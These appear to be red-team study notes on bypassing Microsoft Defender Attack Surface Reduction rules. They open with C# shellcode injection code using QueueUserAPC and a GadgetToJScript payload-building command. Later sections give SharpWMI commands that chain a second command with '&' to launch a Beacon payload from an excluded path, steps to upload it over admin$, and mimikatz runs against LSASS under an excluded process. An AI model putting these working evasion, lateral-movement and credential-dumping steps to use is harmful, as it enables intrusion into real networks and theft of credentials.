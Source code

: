 ```c#
			// inject shellcode
			success = WriteProcessMemory(
				processInfo.hProcess,
				baseAddress,
				shellcode,
				(uint)shellcode.Length,
				out _);
			
			// change memory from RW to RX
			success = VirtualProtectEx(
				processInfo.hProcess,
				baseAddress,
				(uint)shellcode.Length,
				PROTECTION_FLAGS.PAGE_EXECUTE_READ,
				out _);
			
			// run shellcode with QueueUserAPC
			_ = Win32.QueueUserAPC(
				baseAddress,
				processInfo.hThread,
				IntPtr.Zero);
			
			Win32.ResumeThread(processInfo.hThread);
			
			Win32.CloseHandle(processInfo.hThread);
			Win32.CloseHandle(processInfo.hProcess);
		}
	}
}
```
`C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -w vba -b -e hex -o C:\Payloads\inject -a C:\Tools\GadgetToJScript\TestAssembly\bin\Release\TestAssembly.dll`
#### Process Creations from PSExec & WMI
`grep "Block process creations originating from PSExec and WMI commands" *.lua`
looking at **GetMonitoredLocations**, Cobalt Strike's psexec is not blocked
open file and look for `GetCommandLineExclusions`
- example exclusion: `:\Windows\ccmcache`

string together with &
`execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=[target] command="C:\Windows\System32\cmd.exe /c dir C:\Windows\ccmcache\ & C:\Windows\notepad.exe"`
or add arbitrary arguments to a Beacon payload
`cd \\[target]\admin$`
`upload C:\Payloads\smb_x64.exe`
`execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=[target] command="C:\Windows\smb_x64.exe --path C:\Windows\ccmcache\cache"`
#### Credential Stealing from LSASS
`grep "Block credential stealing from LSASS" *.lua`
open file and look for `GetPathExclusions`

feel free to replace mrt.exe with another exclusion:
`spawnto x64 c:\windows\system32\mrt.exe`
`mimikatz [...]`
or
`ps`
look for already running exclusion
`mimikatz [pid] x64 [...]`
## WDAC
Basically advanced AppLocker only for Windows 10+

